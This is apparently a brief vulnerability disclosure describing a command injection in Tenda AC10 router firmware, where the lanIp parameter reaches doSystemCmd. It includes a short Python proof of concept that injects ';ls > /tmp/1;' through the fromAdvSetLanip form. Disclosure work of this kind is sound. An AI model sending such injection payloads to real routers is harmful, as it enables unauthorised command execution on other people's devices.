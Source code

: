 # command injection

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a command injection in httpd/TendaTelnet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](13.png)

call doSystemCmd, concate lan.ip

![](14.png)

lan.ip get value from lanIp, and we can execute arbitrary command

## POC
```
url = "http://192.168.1.13/goform/fromAdvSetLanip"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={'lanIp': payload})
``` 
